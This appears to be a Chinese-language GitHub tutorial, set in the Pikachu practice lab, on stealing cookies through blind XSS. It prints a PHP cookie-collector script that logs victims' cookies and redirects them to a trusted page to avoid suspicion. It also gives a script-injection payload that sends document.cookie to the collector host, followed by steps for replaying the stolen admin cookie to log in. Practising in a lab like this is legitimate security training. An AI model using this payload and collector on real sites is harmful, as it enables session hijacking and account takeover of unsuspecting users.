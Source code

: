 ## 获取cookie
### 1、获取cookie的js脚本
```shell script
root@f2e1fe30d200:/var/www/html/pkxss/xcookie# cat /var/www/html/pkxss/xcookie/cookie.php 
<?php
include_once '../inc/config.inc.php';
include_once '../inc/mysql.inc.php';
$link=connect();

//这个是获取cookie的api页面

if(isset($_GET['cookie'])){
    $time=date('Y-m-d g:i:s');
    $ipaddress=getenv ('REMOTE_ADDR');
    $cookie=$_GET['cookie'];
    $referer=$_SERVER['HTTP_REFERER'];
    $useragent=$_SERVER['HTTP_USER_AGENT'];
    $query="insert cookies(time,ipaddress,cookie,referer,useragent) 
    values('$time','$ipaddress','$cookie','$referer','$useragent')";
    $result=mysqli_query($link, $query);
}
header("Location:http://172.16.120.252:8085/pikachu/index.php"); //重定向到一个可信的网站,让用户迷惑的,如果想获取百度的cookie,最后可以重定向到百度的首页

?>
```
### 2、盗取cookie的payload
#### 下面的地址，是存放js脚本的地址，需要自己搭建
```shell script
<script>document.write('<img src="http://172.16.120.252:8085/pkxss/xcookie/cookie.php?cookie='+document.cookie+'"/>')</script>
```
### 3、提交成功之后，需要登陆网站后台进行查看，获取管理员后台的用户名和密码
http://172.16.120.252:8085/vul/xss/xssblind/admin_login.php
![image](https://github.com/498946975/Security/blob/master/images/xss_11.png)
### 4、然后到xss后台查看结果
http://172.16.120.252:8085/pkxss/pkxss_login.php
![image](https://github.com/498946975/Security/blob/master/images/xss_12.png)

### 5、获取cookie之后，需要用cookie进行登陆
### 6、首先下载插件cookie editor
![image](https://github.com/498946975/Security/blob/master/images/xss_13.png)
### 7、登陆后台页面
http://172.16.120.252:8085/vul/xss/xssblind/admin.php
后台登陆页面获取方式：
    1、暴力破解
    2、猜
    3、框架固定格式
    4、爬虫
由于没有登陆，则重定向到了http://172.16.120.252:8085/vul/xss/xssblind/admin_login.php
### 8、把刚才第四部的图片里面的cookie的信息，增加到cookie editor
![image](https://github.com/498946975/Security/blob/master/images/xss_14.png)
### 9、再次访问http://172.16.120.252:8085/vul/xss/xssblind/admin.php，就可以登陆了